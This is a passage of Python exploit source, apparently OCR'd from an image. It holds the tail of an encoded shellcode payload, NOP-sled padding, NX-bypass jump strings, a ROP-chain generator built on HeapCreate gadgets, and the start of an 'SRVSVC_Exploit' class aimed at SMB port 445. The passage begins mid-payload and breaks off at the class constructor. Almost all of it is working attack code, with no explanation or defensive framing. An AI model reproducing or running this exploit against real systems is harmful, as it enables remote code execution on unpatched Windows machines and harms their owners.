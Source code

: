 ```python=
"\x8a\xc3\x77\xea\x9a\xc3\x67\xea\xb2\x79\x28\x65\x3a\x6c\xf2"
"\x2d\xb0\x96\x4f\xb0\xd0\x9d\x28\xd2\xd8\x93\x26\x01\x53\x75"
"\x4d\xaa\x8c\xc4\x4f\x23\x7f\xe7\x46\x45\x0f\x16\xe7\xce\xd6"
"\x6c\x69\xb2\xaf\x7f\x4f\x4a\x6f\x31\x71\x45\x0f\xfb\x44\xd7"
"\xbe\x93\xae\x59\x8d\xc4\x70\x8b\x2c\xf9\x35\xe3\x8c\x71\xda"
"\xdc\x1d\xd7\x03\x86\xdb\x92\xaa\xfe\xfe\x83\xe1\xba\x9e\xc7"
"\x77\xec\x8c\xc5\x61\xec\x94\xc5\x71\xe9\x8c\xfb\x5e\x76\xe5"
"\x15\xd8\x6f\x53\x73\x69\xec\x9c\x6c\x17\xd2\xd2\x14\x3a\xda"
"\x25\x46\x9c\x5a\xc7\xb9\x2d\xd2\x7c\x06\x9a\x27\x25\x46\x1b"
"\xbc\xa6\x99\xa7\x41\x3a\xe6\x22\x01\x9d\x80\x55\xd5\xb0\x93"
"\x74\x45\x0f"
)

# ------------------------------------------------------------------------

# Gotta make No-Ops (NOPS) + shellcode = 410 bytes
num_nops = 410 - len(shellcode)
newshellcode = "\x90" * num_nops
newshellcode += shellcode  # Add NOPS to the front
shellcode = newshellcode   # Switcheroo with the newshellcode temp variable

#print "Shellcode length: %s\n\n" % len(shellcode)

nonxjmper = "\x08\x04\x02\x00%s" + "A" * 4 + "%s" + \
    "A" * 42 + "\x90" * 8 + "\xeb\x62" + "A" * 10
disableNXjumper = "\x08\x04\x02\x00%s%s%s" + "A" * \
    28 + "%s" + "\xeb\x02" + "\x90" * 2 + "\xeb\x62"
ropjumper = "\x00\x08\x01\x00" + "%s" + "\x10\x01\x04\x01";
module_base = 0x6f880000


def generate_rop(rvas):
    gadget1 = "\x90\x5a\x59\xc3"
    gadget2 = ["\x90\x89\xc7\x83", "\xc7\x0c\x6a\x7f", "\x59\xf2\xa5\x90"]
    gadget3 = "\xcc\x90\xeb\x5a"
    ret = struct.pack('<L', 0x00018000)
    ret += struct.pack('<L', rvas['call_HeapCreate'] + module_base)
    ret += struct.pack('<L', 0x01040110)
    ret += struct.pack('<L', 0x01010101)
    ret += struct.pack('<L', 0x01010101)
    ret += struct.pack('<L',
                       rvas['add eax, ebp / mov ecx, 0x59ffffa8 / ret'] + module_base)
    ret += struct.pack('<L', rvas['pop ecx / ret'] + module_base)
    ret += gadget1
    ret += struct.pack('<L', rvas['mov [eax], ecx / ret'] + module_base)
    ret += struct.pack('<L', rvas['jmp eax'] + module_base)
    ret += gadget2[0]
    ret += gadget2[1]
    ret += struct.pack('<L', rvas[
                       'mov [eax+8], edx / mov [eax+0xc], ecx / mov [eax+0x10], ecx / ret'] + module_base)
    ret += struct.pack('<L', rvas['pop ecx / ret'] + module_base)
    ret += gadget2[2]
    ret += struct.pack('<L', rvas['mov [eax+0x10], ecx / ret'] + module_base)
    ret += struct.pack('<L', rvas['add eax, 8 / ret'] + module_base)
    ret += struct.pack('<L', rvas['jmp eax'] + module_base)
    ret += gadget3
    return ret


class SRVSVC_Exploit(Thread):
    def __init__(self, target, os, port=445):
        super(SRVSVC_Exploit, self).__init__()
```